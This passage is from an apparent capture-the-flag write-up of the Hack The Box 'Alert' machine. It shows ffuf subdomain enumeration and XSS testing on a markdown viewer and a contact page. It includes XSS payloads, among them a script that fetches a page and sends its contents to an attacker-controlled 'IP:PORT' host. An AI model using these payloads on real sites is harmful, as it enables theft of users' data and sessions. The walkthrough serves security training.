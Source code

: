 * `http://alert.htb/server-status/`

![server_status directory](/images/HTB-Alert/server_status.png)

Using ffuf we discover a subdomain: `statistics`.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --fc 404 -t 100 -u http://alert.htb -H "Host: FUZZ.alert.htb" -ic -fc 301
```

![Subdomain enumeration](/images/HTB-Alert/alert_ffuf.png)

At `http://statistics.alert.htb/` we find a login page requiring a `username` and `password`.

![statistics subdomain login page](/images/HTB-Alert/statistics_subdomain.png)

`Basic Authentication` is used for the user authentication. This simple authentication method is not secure on its own because the credentials are only Base64-encoded, not encrypted.

![Basic authentication](/images/HTB-Alert/basic_auth.png)

We go back to the markdown viewer. Let's add a XSS payload to our markdown file and try to view it.

```
<script>alert(1)</script>
```

![XSS test](/images/HTB-Alert/xss_md.png)

When we view the markdown file our XSS payload gets executed!

![XSS payload triggered](/images/HTB-Alert/alert_xss_payload.png)

It also works when we share the file.

![XSS payload triggered 2](/images/HTB-Alert/alert_xss_payload1.png)

We can also test for a XSS vulnerability on the contact page.

```
<img src=x error= \"fetch('http://IP:PORT/?kscorpio')\"
```

![XSS test on contact page](/images/HTB-Alert/test_XSS.png)

Our payload works here too.

![XSS on contact page success](/images/HTB-Alert/XSS_test_success.png)

## Initial Foothold

We have confirmed two instances of XSS. Let's update the content of our markdown file and try to steal some sensitive data.

```javascript
<script>
fetch("http://alert.htb/")
    .then(response => response.text())
    .then(data => {
    fetch("http://IP:PORT/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```
